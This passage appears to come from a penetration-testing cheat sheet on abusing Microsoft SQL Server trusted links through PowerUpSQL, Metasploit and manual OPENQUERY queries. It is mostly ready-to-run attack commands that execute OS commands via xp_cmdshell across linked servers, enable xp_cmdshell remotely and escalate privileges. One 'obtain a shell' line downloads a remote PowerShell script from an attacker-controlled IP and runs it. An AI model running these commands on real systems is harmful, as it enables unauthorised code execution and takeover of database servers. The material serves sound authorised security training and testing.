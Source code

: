     Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Query "exec master..xp_cmdshell 'whoami'"

#### 5) Obtain a shell

    Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1'')"'

#### 6) Check for possible vulnerabilities on an instance where you have access

    Invoke-SQLAudit -Verbose -Instance "dcorp-mssql.dollarcorp.moneycorp.local"

#### 7) Try to escalate privileges on an instance

    Invoke-SQLEscalatePriv –Verbose –Instance "SQLServer1\Instance1"

#### 8) Manual trusted link query

    Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select * from openquery(""sql2.domain.io"", 'select * from information_schema.tables')"

#### 9) Enable xp_cmdshell and check it

    Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'SELECT * FROM OPENQUERY("sql2.domain.io", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell'''''');'

    Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [sql.rto.external]'

    Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [sql.rto.external]'

If you see the results of @@selectname, it worked

    Get-SQLQuery -Instance "sql.rto.local,1433" -Query 'SELECT * FROM OPENQUERY("sql.rto.external", ''select @@servername; exec xp_cmdshell ''''powershell whoami'''''');'

# Metasploit

You can easily check for trusted links using Metasploit.

    msf> use exploit/windows/mssql/mssql_linkcrawler
    msf> set DEPLOY true (Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session)

# Manual - Openquery()

From Linux you could obtain a MSSQL console shell with sqsh and mssqlclient.py.

From Windows you could also find the links and execute commands manually using a MSSQL client like HeidiSQL

HeidiSQL Link: https://www.heidisql.com/download.php

Login using Windows Authentication
